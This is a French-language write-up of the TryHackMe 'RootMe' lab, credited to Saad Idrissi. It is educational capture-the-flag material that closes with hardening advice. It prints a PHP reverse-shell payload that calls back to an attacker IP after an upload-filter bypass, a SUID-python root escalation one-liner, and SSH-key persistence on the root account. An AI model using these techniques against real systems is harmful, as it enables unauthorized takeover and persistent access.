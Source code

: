 # TryHackMe – RootMe


## Présentation générale

La room **RootMe** est une machine d’initiation sur [TryHackMe](https://tryhackme.com/room/rootme) destinée à illustrer l’exploitation d’un formulaire d’upload vulnérable, suivie d’une élévation de privilèges simple. L’objectif est de récupérer :

1. le flag utilisateur (`user.txt`) ;
2. le flag root (`root.txt`).

---

## Étape 1 : Reconnaissance

### Ciblage de la machine

```text
IP cible : 10.10.104.124
```

Seul le port 80 (HTTP) est accessible.

### Analyse Web

La page d’accueil propose un **téléversement de fichiers**. Toute tentative d’upload d’un fichier `.php` est refusée :

```
PHP não é permitido!
```

---

## Étape 2 : Accès initial via téléversement de fichier

### Vulnérabilité identifiée

L’extension `.php5` est toujours interprétée par Apache comme du PHP. L’upload d’un web‑shell `shell.php5` est donc autorisé :

```php
<?php
$sock = fsockopen('10.8.123.123', 4444);
exec('/bin/sh -i <&3 >&3 2>&3');
?>
```

Le fichier est ensuite accessible à l’URL :

```
http://10.10.104.124/uploads/shell.php5
```

### Exécution du shell

Côté attaquant :

```bash
rlwrap nc -lvnp 4444
```

Le chargement de l’URL déclenche un **reverse shell** sous `www‑data` et permet de lire `user.txt`.

---

## Étape 3 : Escalade de privilèges

### Recherche SUID

```bash
find / -perm -4000 -type f 2>/dev/null
```

Résultat pertinent :

```
/usr/bin/python
```

### Exploitation Python SUID

Le binaire Python possède le bit SUID. Il est donc possible de se faire passer root :

```bash
python -c 'import os,pty; os.setuid(0); os.system("/bin/bash")'
```

```bash
root@rootme:~# whoami
root
```

---

## Étape 4 : Persistance via SSH

1. Générer une paire de clés locale :

   ```bash
   ssh-keygen -t ed25519
   ```

2. Ajouter la clé publique dans `/root/.ssh/authorized_keys` sur la machine cible.

3. Vérifier l’accès :

   ```bash
   ssh -i id_ed25519 root@10.10.104.124
   ```

---

## Résultat final

```bash
root@rootme:~# cat /root/root.txt
THM{<redacted>}
```

---

## Recommandations de sécurité

1. **Filtrage strict des uploads** : liste blanche des extensions et analyse du contenu.
2. **Désactivation des extensions PHP secondaires** dans la configuration Apache.
3. **Réduction de surface SUID** : retirer le bit SUID des interpréteurs non essentiels.
4. **Journalisation et alertes** sur les téléversements et l’exécution de fichiers dans les répertoires web.

---

## Conclusion

Un simple contournement d’upload et une mauvaise gestion des SUID suffisent à compromettre totalement le système. Le durcissement de la configuration Apache et une politique de privilèges minimale sont indispensables.

---

**Auteur :** Saad Idrissi

